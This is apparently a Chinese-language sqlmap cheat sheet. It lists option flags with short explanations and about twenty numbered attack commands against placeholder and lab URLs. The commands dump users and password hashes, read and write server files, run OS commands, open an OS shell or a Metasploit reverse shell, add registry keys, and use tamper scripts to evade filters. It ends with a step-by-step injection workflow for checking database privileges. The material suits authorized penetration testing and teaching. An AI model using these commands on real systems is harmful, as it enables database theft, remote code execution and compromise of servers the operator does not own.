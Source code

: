 ```
--file-write   #写入本地文件(--file-write /test/test.txt --file-dest /var/www/html/1.txt;将本地的test.txt文件写入到目标的1.txt) 
--file-dest    #要写入的文件绝对路径 
--os-cmd=id    #执行系统命令 
--os-shell     #系统交互shell 
--os-pwn       #反弹shell(--os-pwn --msf-path=/opt/framework/msf3/) 
--msf-path=    #matesploit绝对路径(--msf-path=/opt/framework/msf3/) 
--os-smbrelay  # 
--os-bof       # 
--reg-read     #读取win系统注册表 
--priv-esc     # 
--time-sec=    #延迟设置 默认--time-sec=5 为5秒 
-p "user-agent" --user-agent "sqlmap/0.7rc1 (http://sqlmap.sourceforge.net)"  #指定user-agent注入 
--eta          #盲注 
/pentest/database/sqlmap/txt/
common-columns.txt　　字段字典　　　 
common-outputs.txt 
common-tables.txt      表字典 
keywords.txt 
oracle-default-passwords.txt 
user-agents.txt 
wordlist.txt 

常用语句 :
1./sqlmap.py -u http://www.xxxxx.com/test.php?p=2 -f -b --current-user --current-db --users --passwords --dbs -v 0 
2./sqlmap.py -u http://www.xxxxx.com/test.php?p=2 -b --passwords -U root --union-use -v 2 
3./sqlmap.py -u http://www.xxxxx.com/test.php?p=2 -b --dump -T users -C username -D userdb --start 2 --stop 3 -v 2 
4./sqlmap.py -u http://www.xxxxx.com/test.php?p=2 -b --dump -C "user,pass"  -v 1 --exclude-sysdbs 
5./sqlmap.py -u http://www.xxxxx.com/test.php?p=2 -b --sql-shell -v 2 
6./sqlmap.py -u http://www.xxxxx.com/test.php?p=2 -b --file-read "c:\boot.ini" -v 2 
7./sqlmap.py -u http://www.xxxxx.com/test.php?p=2 -b --file-write /test/test.txt --file-dest /var/www/html/1.txt -v 2 
8./sqlmap.py -u http://www.xxxxx.com/test.php?p=2 -b --os-cmd "id" -v 1 
9./sqlmap.py -u http://www.xxxxx.com/test.php?p=2 -b --os-shell --union-use -v 2 
10./sqlmap.py -u http://www.xxxxx.com/test.php?p=2 -b --os-pwn --msf-path=/opt/framework/msf3 --priv-esc -v 1 
11./sqlmap.py -u http://www.xxxxx.com/test.php?p=2 -b --os-pwn --msf-path=/opt/framework/msf3 -v 1 
12./sqlmap.py -u http://www.xxxxx.com/test.php?p=2 -b --os-bof --msf-path=/opt/framework/msf3 -v 1 
13./sqlmap.py -u http://www.xxxxx.com/test.php?p=2 --reg-add --reg-key="HKEY_LOCAL_NACHINE\SOFEWARE\sqlmap" --reg-value=Test --reg-type=REG_SZ --reg-data=1 
14./sqlmap.py -u http://www.xxxxx.com/test.php?p=2 -b --eta 
15./sqlmap.py -u "http://192.168.136.131/sqlmap/mysql/get_str_brackets.php?id=1" -p id --prefix "')" --suffix "AND ('abc'='abc"
16./sqlmap.py -u "http://192.168.136.131/sqlmap/mysql/basic/get_int.php?id=1" --auth-type Basic --auth-cred "testuser:testpass"
17./sqlmap.py -l burp.log --scope="(www)?\.target\.(com|net|org)"
18./sqlmap.py -u "http://192.168.136.131/sqlmap/mysql/get_int.php?id=1" --tamper tamper/between.py,tamper/randomcase.py,tamper/space2comment.py -v 3 
19./sqlmap.py -u "http://192.168.136.131/sqlmap/mssql/get_int.php?id=1" --sql-query "SELECT 'foo'" -v 1 
20./sqlmap.py -u "http://192.168.136.129/mysql/get_int_4.php?id=1" --common-tables -D testdb --banner 
21./sqlmap.py -u "http://192.168.136.129/mysql/get_int_4.php?id=1" --cookie="PHPSESSID=mvijocbglq6pi463rlgk1e4v52; security=low" --string='xx' --dbs --level=3 -p "uid"

简单的注入流程 :
1.读取数据库版本，当前用户，当前数据库 
sqlmap -u http://www.xxxxx.com/test.php?p=2 -f -b --current-user --current-db -v 1 
2.判断当前数据库用户权限 
sqlmap -u http://www.xxxxx.com/test.php?p=2 --privileges -U 用户名 -v 1 
sqlmap -u http://www.xxxxx.com/test.php?p=2 --is-dba -U 用户名 -v 1 
```